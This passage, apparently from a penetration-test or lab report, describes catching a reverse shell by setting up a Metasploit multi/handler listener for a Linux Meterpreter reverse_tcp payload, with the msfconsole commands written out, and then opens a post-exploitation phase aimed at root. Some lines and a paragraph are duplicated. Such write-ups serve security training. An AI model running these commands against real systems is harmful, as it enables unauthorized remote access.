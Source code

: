 
### **Payload Execution Metasploit**
While the payload was being transferred and prepared on the victim machine, a listener was set up on the attacking machine using *Metasploit's `multi/handler` module*. This module is designed to catch incoming reverse shell connections.  
While the payload was being transferred and prepared on the victim machine, a listener was set up on the attacking machine using *Metasploit's `multi/handler` module*. This module is designed to catch incoming reverse shell connections.  

```bash
msfconsole
use exploit/multi/handler
msfconsole
use exploit/multi/handler
set PAYLOAD linux/x86/meterpreter/reverse_tcp
set LHOST <attacker_IP>
set LPORT 4444
run -j
```
![System acces granted](/assets/images/posts/atrium-report/startmsf.png )
![System acces granted](/assets/images/posts/atrium-report/startmsf1.png )


Once the payload was executed on the victim, the handler caught the connection, and a *Meterpreter session* was successfully established. This provided a stable and powerful platform for conducting further post-exploitation activities and privilege escalation.



# **Phase 3: Post-Exploitation**

#### Objective
The primary goal of this phase was to leverage the established reverse shell access to perform an in-depth system enumeration, escalate privileges to root, and gather critical information. This process is essential for understanding the compromised environment and achieving complete control.
